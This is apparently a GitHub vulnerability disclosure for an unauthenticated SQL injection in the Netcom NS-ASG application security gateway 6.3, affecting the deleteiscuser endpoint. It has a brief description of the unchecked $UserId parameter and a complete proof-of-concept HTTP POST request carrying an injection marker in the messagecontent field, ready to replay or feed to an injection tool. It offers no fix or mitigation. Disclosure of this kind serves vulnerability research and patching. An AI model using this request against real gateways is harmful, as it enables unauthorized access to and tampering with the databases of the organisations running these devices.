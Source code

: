 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/


version:6.3 Vulnerability Path ： /protocol/iscuser/deleteiscuser.php


The analysis is as follows:
Accept the $UserId variable through the variable messagecontent, then iterate over the $UserId variable and substitute it directly into the sql statement without doing any checks. Causes unauthorized sql injection
<img width="596" alt="图片" src="https://github.com/charliecatsec/cve1/assets/171440363/0833d188-2271-4966-ad2d-5839f71206d4">

Poc：
```
POST /protocol/index.php HTTP/1.1
Host: 127.0.0.1
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

jsoncontent={"protocolType":"deleteiscuser","messagecontent":["1*"]}
```
<img width="755" alt="图片" src="https://github.com/charliecatsec/cve1/assets/171440363/071ecc00-f1f9-411b-95b4-e1a68234b0aa">
<img width="731" alt="图片" src="https://github.com/charliecatsec/cve1/assets/171440363/aa284d20-c0aa-4086-91fb-6ab0a81c6a93">


